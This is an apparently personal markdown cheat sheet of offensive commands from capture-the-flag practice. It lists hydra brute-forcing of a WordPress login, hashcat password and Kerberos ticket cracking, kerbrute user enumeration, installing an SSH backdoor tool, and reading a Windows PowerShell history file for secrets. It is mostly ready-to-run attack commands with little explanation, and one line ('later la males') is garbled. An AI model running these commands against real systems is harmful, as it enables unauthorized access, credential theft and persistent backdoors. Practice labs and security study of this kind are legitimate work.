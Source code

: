 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host


## Reverse SSH Tunnel 

- ss -tulpn
- ssh -L 10000:localhost:10000 <username>@<ip>


## Hashcat
- hashcat -m 1710 "" --force /Users/c3budiman/Hacking/wordlist/rockyou.txt

## SSH backdoor 
- git clone https://github.com/NinjaJc01/ssh-backdoor
- cd ssh-backdoor
- ssh-keygen
- id_rsa
- chmod +x backdoor
- ./backdoor -a hash

## find flag or file in windows 

Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

## Decode base64 in windows

- certutil -decode "C:\Users\Administrator\Desktop\b64.txt" out.txt
- Get-Content out.txt


Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## hashcat
hashcat -m 13100 -a 0 hash /root/Desktop/wordlists --force --self-test-disable

## kerbrute
python3 kerbrute/kerbrute.py userenum --dc CONTROLLER.local -d CONTROLLER.local wordlist/user.txt